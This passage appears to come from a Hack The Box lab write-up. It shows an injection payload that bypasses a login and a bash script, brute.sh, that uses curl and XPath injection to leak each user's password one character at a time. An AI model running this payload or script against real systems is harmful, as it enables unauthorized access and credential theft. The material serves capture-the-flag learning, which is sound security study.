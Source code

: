 Using `sqli.auth.bypass.txt` from SecLists, I was able to utilize Burp's Intruder to determine the exact payload to reveal a list of users. The payload is `admin'or 1=1 or ''='`.

{% include image.html image_alt="0999e412.png" image_src="/976fd789-f054-4cd7-9869-63c240841a40/0999e412.png" %}

A list of users exposed!

{% include image.html image_alt="64dbdae0.png" image_src="/976fd789-f054-4cd7-9869-63c240841a40/64dbdae0.png" %}

Something tells me this is XPath Injection rather than SQLi. :thinking:

### Brute-forcing Passwords

If I had to guess, I would say that I can brute-force the password of each user by utilizing a XPath Injection payload to leak the password one character at a time. Suffice to say, I've tested this hypothesis.

{% include image.html image_alt="e30c6c46.png" image_src="/976fd789-f054-4cd7-9869-63c240841a40/e30c6c46.png" %}

A user matches and the information appears.

{% include image.html image_alt="596b3150.png" image_src="/976fd789-f054-4cd7-9869-63c240841a40/596b3150.png" %}

Armed with this insight, I wrote the following shell script driven by `curl`.

<div class="filename"><span>brute.sh</span></div>

```bash
#!/bin/bash

HOST=172.31.179.1
PROXY=10.10.10.200:3128
USER=$1
PASS=""

PAYLOAD="'or substring(Password,POS,1)='BRUTE"

for pos in $(seq 1 30); do
    for d in $(seq 33 126); do
        char=$(printf \\$(printf "%o" "$d"))
        payload="${PAYLOAD/POS/$pos}"
        payload="${payload/BRUTE/$char}"
        result="$(curl -s \
                       -x $PROXY \
                       -d "Username=${USER}&Password=${payload}" \
                      http://$HOST/intranet.php)"
        if grep $USER <<<"$result" &>/dev/null; then
            PASS=${PASS}$char
            echo $PASS
            break
        fi
    done
done

echo "[+] User is $USER, Password is $PASS"
```


[1]: https://www.hackthebox.eu/home/machines/profile/268
[2]: https://www.hackthebox.eu/home/users/profile/159204
[3]: https://www.hackthebox.eu/home/users/profile/125033
[4]: https://www.hackthebox.eu/